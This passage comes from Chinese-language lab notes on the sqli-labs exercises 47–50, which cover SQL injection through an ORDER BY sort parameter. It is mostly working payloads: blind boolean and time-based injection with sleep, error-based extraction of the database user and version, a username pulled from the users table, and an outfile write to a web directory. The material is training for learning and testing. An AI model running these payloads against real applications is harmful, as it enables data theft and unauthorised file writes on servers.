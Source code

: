 >   ```sql
>   -- sql语句为：属于将id从整形变成字符型
>   $sql = "SELECT * FROM users ORDER BY '$id'";
>   
>   -- 1、and 与rand相结合方式注入
>   ?sort=1%27and rand(ascii(left(database(),1))=115)--+
>   ?sort=1%27and rand(ascii(left(database(),1))=116)--+
>   
>   -- 2、使用报错方式注入
>   ?sort=1'and (select count(*) from information_schema.columns group by concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand()*2)))--+
>   
>   -- 3、使用重复项原理爆出数据库版本
>   ?sort=1'and (select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x)--+
>   
>   -- 4、延时注入,正确时直接显示，改为其他数字时就要延时了，可以爆破
>   ?sort=1'and if(ascii(substr(database(),1,1))=115,0,sleep(5))--+
>   
>   -- 5、procedure analyse注入
>   ?sort=1'procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)--+
>   
>   -- 6、out file参数注入
>   ?sort=1'to utfile %22c:\\wamp\\www\\sqllib\\test.txt%22--+
>   ```
>
>   

#### 【48】

>   与 less-46 的区别在于报错注入不能使用，不进行错误回显，因此其他的方法依旧是可以使

```sql
-- 1、可以利用 sort=rand(true/false)进行判断
?sort=rand(ascii(left(database(),1))=178)

-- 2、And 后的延时,结果为true马上显示，为false延时
?sort=1 and (if(ascii(substr(database(),1,1))=115,0,sleep(5)))

-- 3、outfile
```

#### 【49】

>   本关与 47 关基本类似，区别在于没有错误回显，所以我们可以通过**延时注入和导入文件进行注**

```sql
-- true
?sort=1' and (If(ascii(substr((select username from users where id=1),1,1))=68,0,sleep(5)))--+
-- false
?sort=1' and (If(ascii(substr((select username from users where id=1),1,1))=69,0,sleep(5)))--+
```

### 50、order by 堆叠注入
